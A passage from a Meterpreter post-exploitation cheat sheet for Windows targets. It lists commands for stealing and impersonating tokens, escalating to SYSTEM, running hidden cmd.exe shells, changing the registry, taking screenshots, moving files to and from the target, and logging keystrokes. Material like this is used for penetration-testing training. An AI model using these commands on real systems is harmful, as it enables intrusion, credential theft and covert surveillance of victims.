 `use incognito`
Load incognito functions. (Used for token stealing and impersonation on a target machine.)

`list_tokens -u`
List available tokens on the target by user.

`list_tokens -g`
List available tokens on the target by group.

`impersonate_token <DOMAIN_NAMEUSERNAME>`
Impersonate a token available on the target.

`steal_token <proc. id>`
Steal the tokens available for a given process and impersonate that token.

`drop_token`
Stop impersonating the current token.

`getsystem`
Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.

`shell`
Drop into an interactive shell with all available tokens.

`execute -f <cmd.exe> -i`
Execute cmd.exe and interact with it.

`execute -f <cmd.exe> -i -t`
Execute cmd.exe with all available tokens.

`execute -f <cmd.exe> -i -H -t`
Execute cmd.exe with all available tokens and make it a hidden process.

`rev2self`
Revert back to the original user you used to compromise the target.

`reg <command>`
Interact, create, delete, query, set, and much more in the target’s registry.

`setdesktop <number>`
Switch to a different screen based on who is logged in.

`screenshot`
Take a screenshot of the target’s screen.

`upload <filename>`
Upload a file to the target.

`download <filename>`
Download a file from the target.

`keyscan_start`
Start sniffing keystrokes on the remote target.

`keyscan_dump`
Dump the remote keys captured on the target.

`keyscan_stop`
Stop sniffing keystrokes on the remote target.

